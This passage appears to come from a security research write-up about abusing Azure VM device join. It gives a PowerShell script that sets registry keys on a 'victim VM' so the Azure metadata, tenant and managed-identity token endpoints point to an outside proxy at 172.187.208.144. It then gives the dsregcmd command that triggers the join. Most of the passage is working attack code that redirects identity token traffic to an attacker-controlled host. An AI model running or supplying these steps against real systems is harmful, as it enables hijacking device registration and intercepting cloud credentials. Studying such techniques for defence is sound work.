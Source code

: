 Run the following powershell script, to set the registry keys to point to the proxied metadata instance at `172.187.208.144`.
```
function Create-RegistryKeys {
    param (
        [Parameter(Mandatory=$true)]
        [System.Collections.Hashtable[]]
        $RegistryKeys
    )

    foreach ($regKey in $RegistryKeys) {
        $path = $regKey.Path
        $name = $regKey.Name
        $value = $regKey.Value

        if (!(Test-Path $path)) {
            New-Item -Path $path -Force | Out-Null
        }

        New-ItemProperty -Path $path -Name $name -Value $value -PropertyType $regKey.Type -Force | Out-Null
    }
}

$RegistryKeys = @(
    @{Path="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmComputeMetadataEndpoint"; Value="http://172.187.208.144/metadata/instance/compute"; Type="String"},
    @{Path="HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmTenantIdEndpoint"; Value="http://172.187.208.144/metadata/identity/info"; Type="String"},
    @{Path="HKLM:\\SOFTWARE\Microsoft\Windows\CurrentVersion\CDJ"; Name="AzureVmMsiTokenEndpoint"; Value="http://172.187.208.144/metadata/identity/oauth2/token"; Type="String"}
)

Create-RegistryKeys -RegistryKeys $RegistryKeys
```

Now, on the victim VM, its as simple as running the `dsregcmd` utility. No VM extensions required.
```
dsregcmd /AzureSecureVMJoin /debug
```

![](../images/vm-domain-join/dsregcmd-join.png)
